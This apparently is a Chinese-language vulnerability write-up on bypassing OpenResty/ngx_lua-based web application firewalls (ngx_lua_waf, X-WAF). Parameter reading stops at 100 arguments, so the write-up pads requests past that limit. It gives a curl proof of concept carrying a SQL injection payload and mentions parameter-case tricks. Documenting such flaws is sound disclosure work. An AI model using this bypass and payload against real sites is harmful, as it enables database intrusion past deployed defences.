 ###0x00 前言

​	OpenResty® 是一个基于 Nginx 与 Lua 的高性能 Web 平台，其内部集成了大量精良的 Lua 库、第三方模块以及大多数的依赖项。

OpenResty官网：https://openresty.org

漏洞等级：高危

漏洞简介：OpenResty 通过ngx.req.get_uri_args、ngx.req.get_post_args获取参数，只能获取到前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取到第101个及以后的参数，无法对攻击者提交的攻击语句进行安全检测，导致基于ngx_lua开发的安全防护可被绕过，影响多款基于OpenResty的开源WAF。

影响版本：OpenResty全版本

###0x01 环境搭建 

运行环境：CentOS6

源码版本：https://openresty.org/download/openresty-1.13.6.1.tar.gz （官网最新版）

### 0x02 漏洞详情

#### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri 有两个方法：ngx.req.get_uri_args、ngx.req.get_post_args，二者主要的区别是参数来源有区别，ngx.req.get_uri_args获取 uri 请求参数，ngx.req.get_post_args获取来自 post 请求内容。

测试用例：

`server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end

           ngx.req.read_body()
           local arg = ngx.req.get_post_args()
           for k,v in pairs(arg) do
               ngx.say("[POST] key:", k, " v:", v)
           end
       }
   }
}`

输出测试：

![](.\1.png)

#### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

![](.\2.png)

比较有趣的是，window下IIS+ASP/ASPX 大小写是不敏感的，

提交参数为 ?id=1&Id=2&iD=3&ID=4，

输出结果为 1, 2, 3, 4

那么，当nginx反向代理到IIS服务器的时候，这就存在一个参数获取的差异，结合HPP进行利用，可被用来进行Bypass  ngx_lua 构建的SQL注入防御。这里不做讨论，介绍参数大小写，主要用于进一步构造测试用例。

####C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10*10,共100参数，然后第101个参数添加SQL注入 Payload，我们来看看会发生什么？

测试用例：

 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'

输出结果：

![](.\3.png)

可以看到，使用ngx.req.get_uri_args获取uri 请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

![](.\4.png)

使用ngx.req.get_post_args 获取的post请求内容，也同样只获取前100个参数。

综上，通过ngx.req.get_uri_args、ngx.req.get_post_args获取uri参数，只能获取前100个参数，当提交第101个参数时，uri参数溢出，无法正确获取第100以后的参数值，基于ngx_lua开发的安全防护，无法对攻击者提交的第100个以后的参数进行有效安全检测，从而绕过安全防御。



### 0x03 影响产品

####A、ngx_lua_waf

ngx_lua_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx_lua_waf

**拦截效果图：**

![](.\5.png)

**利用参数溢出Bypass：**

![](.\6.png)



####B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：<https://waf.xsec.io> 

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

![](.\7.png)

**利用参数溢出Bypass：**

![](.\8.png)



参考链接：http://wiki.jikexueyuan.com/project/openresty/openresty/get_url_param.html













